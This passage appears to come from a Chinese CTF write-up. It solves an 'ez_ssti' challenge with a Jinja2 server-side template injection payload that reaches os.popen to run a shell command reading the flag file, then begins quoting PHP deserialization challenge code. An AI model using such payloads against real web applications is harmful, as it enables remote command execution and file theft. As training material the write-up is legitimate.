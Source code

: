 ![](./images/image-68.png)

### ez\_ssti

吐槽一下：这道题什么东西都没有，传参都不知道传什么，后来还是搜题目才找到传name

也没什么好写的，直接拿以前写过的payload就爆出来了，甚至都不用跑脚本。。。

```
?name={{lipsum.__globals__.__getitem__('os').popen('cat /f*').read()}}
```

### serialize

代码如下👇

```
 <?php
highlight_file(__FILE__);
class misca{
    public $gao;
    public $fei;
    public $a;
    public function __get($key){
        $this->miaomiao();
        $this->gao=$this->fei;
        die($this->a);
    }
    public function miaomiao(){
        $this->a='Mikey Mouse~';
    }
}
class musca{
    public $ding;
    public $dong;
    public function __wakeup(){
        return $this->ding->dong;
    }
}
class milaoshu{
```